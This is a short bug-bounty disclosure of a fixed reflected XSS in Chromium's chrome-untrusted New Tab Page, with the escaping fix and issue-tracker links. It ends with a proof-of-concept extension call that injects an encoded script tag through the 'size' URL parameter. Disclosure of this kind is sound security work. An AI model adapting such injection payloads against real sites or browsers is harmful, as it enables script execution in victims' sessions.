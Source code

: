 ```yaml
---
title: XSS in native browser UI (Awarded $500)
---
```


Chromium NTP (New Tab Page) reflected content from a url parameter into the DOM, This was fixed by replacing `i18nRaw` with `i18n` that performs html escaping.
Impact is reduced because it's on chrome-untrusted and can only be navigated to directly or from a browser extension. <https://issues.chromium.org/issues/40057777>

UPDATE: As part of <https://bugs.chromium.org/p/chromium/issues/detail?id=1269151> chrome-untrusted URLs in chrome.window and chrome.tabs are now disallowed.

```js
chrome.tabs.update(
  ID,
  {
    url: 'chrome-untrusted://new-tab-page/custom_background_image?url=https://a.a&size=%3C/style%3E%3Cscript%3Ealert(1)%3C/script%3E',
  },
  console.log,
);
```
